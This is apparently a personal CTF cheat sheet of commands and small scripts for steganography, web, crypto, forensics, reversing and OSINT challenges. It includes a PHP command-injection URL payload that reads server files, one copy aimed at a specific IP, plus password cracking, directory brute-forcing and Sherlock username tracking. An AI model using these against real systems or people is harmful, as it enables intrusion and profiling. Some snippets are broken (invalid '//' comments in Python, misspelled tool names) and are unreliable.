 # CTF 2.0
- [Hints](CTF/Important.md)
- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)
- [OSINT](#osint)
- [PWD](#pwd)

## Steganography <a name="stenography"></a>

- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /usr/share/wordlists/rockyou.txt```
- ```file image.png```
- ```strings image.png```
- ```pngcheck image.png```
  - __If you are getting error then use below command__
  - __`foremost image.png`__ ---> to recover the original image
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png```
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- For the noice image
  - go to --> [online](https://piellardj.github.io/stereogram-solver)
- one more for the LSB.
  - go to ---> [jsteg](https://github.com/lukechampine/jsteg) (clone it!!)
  - open the file
  - run this command ```go run cmd/jsteg/main.go reveal ~/Desktop/image.jpg```
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- Use ```GIMP``` to work with QR dots
- ```otfinfo -i font.ttf``` for file.ttf
- ```zbarimg image.png``` to read the qr code
- redacted text (cover with block) in a given pdf
  - ```pdftotext file.pdf``` or ```pdftohtml  file.pdf```
- suspicious space and tabs in a given text file
![image](https://github.com/Chittu13/CTF/blob/main/image/space_tab.png)
  - python script to extract and convert from binary to ASCII and get  the flag.
``` python
def extract_and_convert(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()

    result = ''
    for byte in data:
        if byte == 0x09:  // Tab character
            result += '0'
        elif byte == 0x20:  // Space character
            result += '1'
    
    return result

file_path = 'the_cs_dictionary.txt'

binary_string = extract_and_convert(file_path)

n = int(binary_string, 2)
print(n.to_bytes((n.bit_length() + 7) // 8, 'big').decode())

```
## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files
- ```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```
- ```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://192.168.51.11/```

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
```
-------------------------
|76 |101|115|116|101|114|
-------------------------
|32 |83 |97 |110|100|101|
-------------------------
|114|115|32 |115|104|111|
-------------------------
|117|108|100|32 |104|101|
-------------------------
|108|112|32 |121|111|117|
-------------------------
|32 |58 |41 |41 |41 |42 |
-------------------------

KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 
```
![image](https://github.com/Chittu13/CTF/blob/main/image/hill_cipher.png)
  - flag ```CTF{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}```
2. http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '
    - if the web is old version use this in the url
3. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)
- ```strings flag.zip | grep -i cit | sort | uniq -u```
  - Given zip file was numerous directories with a flag.txt
- A simple script to converts the RGB values of each pixel into characters
```python
 from PIL import Image
import numpy as np

image_path = './secret_square.png'
img = Image.open(image_path).convert('RGB')

pixels = np.array(img)
print(pixels.shape)

sums = np.sum(pixels, axis=2)
print(sums.shape)

for row in sums:
    print(''.join([chr(x) for x in row]))
```

## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```
- ```objbump -d executablefile``` it will show the assembly code of the file

## OSINT <a name="osint"></a>
- To find the user in the internet use this tool called sherlock
```bash
# clone the repo
$ git clone https://github.com/sherlock-project/sherlock.git

# change the working directory to sherlock
$ cd sherlock

# install the requirements
$ python3 -m pip install -r requirements.txt
$ python3 sherlock user123
```


## PWD <a name="pwd"></a>


